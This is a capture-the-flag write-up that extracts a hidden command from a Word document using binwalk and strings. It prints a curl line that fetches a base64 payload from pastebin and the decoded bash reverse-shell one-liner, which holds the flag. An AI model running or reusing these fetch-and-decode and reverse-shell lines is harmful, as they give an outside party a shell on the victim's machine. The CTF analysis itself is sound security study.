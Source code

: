# tldr please summarise

## Description
```
I thought I was being 1337 by asking AI to help me solve challenges, now I have to reinstall Windows again. 
Can you help me out by find the flag in this document?
```

## Provided Files
```
- EmuWar.docx
```

## Writeup

Starting off, I extracted all elements using basic linux utility. <br/>
```sh
$ binwalk -e EmuWar.docx 
```

Searching through extracted files using linux utility. <br/>
```sh
$ find ./ -type f -exec strings {} + | grep "DU"
$ find ./ -type f -exec strings {} + | grep http

--------------------
curl -sL https://pastebin.com/raw/ysYcKmbu | base64 -d
--------------------
```

To extract the flag I simply used another `curl` request to the used endpoint which concludes this writeup. <br/>
```sh
$ curl https://pastebin.com/raw/ysYcKmbu | base64 -d

bash -i >& /dev/tcp/261.263.263.267/DUCTF{chatgpt_I_n33d_2_3scap3} 0>&1
```